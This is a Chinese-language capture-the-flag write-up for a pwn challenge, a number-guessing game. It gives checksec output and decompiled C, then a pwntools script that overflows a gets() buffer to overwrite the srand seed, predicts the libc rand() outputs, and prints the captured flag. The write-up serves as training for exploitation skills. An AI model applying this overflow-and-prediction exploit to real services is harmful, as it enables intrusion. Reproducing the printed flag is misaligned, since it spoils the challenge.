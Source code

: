 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5057&page=1

# 分析

1. checksec

       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      PIE enabled

2. IDA

   ```c
   __int64 __fastcall main(__int64 a1, char **a2, char **a3)
   {
     int v4; // [rsp+4h] [rbp-3Ch]
     int i; // [rsp+8h] [rbp-38h]
     int v6; // [rsp+Ch] [rbp-34h]
     char v7; // [rsp+10h] [rbp-30h]
     unsigned int seed[2]; // [rsp+30h] [rbp-10h]
     unsigned __int64 v9; // [rsp+38h] [rbp-8h]
   
     v9 = __readfsqword(0x28u);
     setbuf(stdin, 0LL);
     setbuf(stdout, 0LL);
     setbuf(stderr, 0LL);
     v4 = 0;
     v6 = 0;
     *(_QWORD *)seed = sub_BB0();
     puts("-------------------------------");
     puts("Welcome to a guess number game!");
     puts("-------------------------------");
     puts("Please let me know your name!");
     printf("Your name:", 0LL);
     gets((__int64)&v7);
     srand(seed[0]);
     for ( i = 0; i <= 9; ++i )
     {
       v6 = rand() % 6 + 1;
       printf("-------------Turn:%d-------------\n", (unsigned int)(i + 1));
       printf("Please input your guess number:");
       __isoc99_scanf("%d", &v4);
       puts("---------------------------------");
       if ( v4 != v6 )
       {
         puts("GG!");
         exit(1);
       }
       puts("Success!");
     }
     sub_C3E();
     return 0LL;
   }
   ```

   ```c
   __int64 sub_C3E()
   {
     printf("You are a prophet!\nHere is your flag!");
     system("cat flag");
     return 0LL;
   }
   ```

   猜对10次数字就可以得到flag，利用random() 是伪随机的特性，即可推知它的结果。

   参数v7和seed差0x20个字符，可利用栈溢出覆盖seed。

   3. pwntools

      ```python
      from pwn import *
      from ctypes import * 
      
      context.log_level = "debug"
      context.arch = "amd64"
      
      sh = remote('111.200.241.244', 54025)
      
      libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
      
      payload = b'a' * 0x20 + p64(1)
      
      sh.recvuntil("Your name:")
      sh.sendline(payload)
      
      libc.srand(1)
      for i in range(10):
      	sh.recvuntil("Please input your guess number:")
      	sh.sendline(str(libc.rand()%6 + 1))
      sh.interactive()
      ```

      得到flag：cyberpeace{0351dc105c58a1aef36c3830b8d229fb}

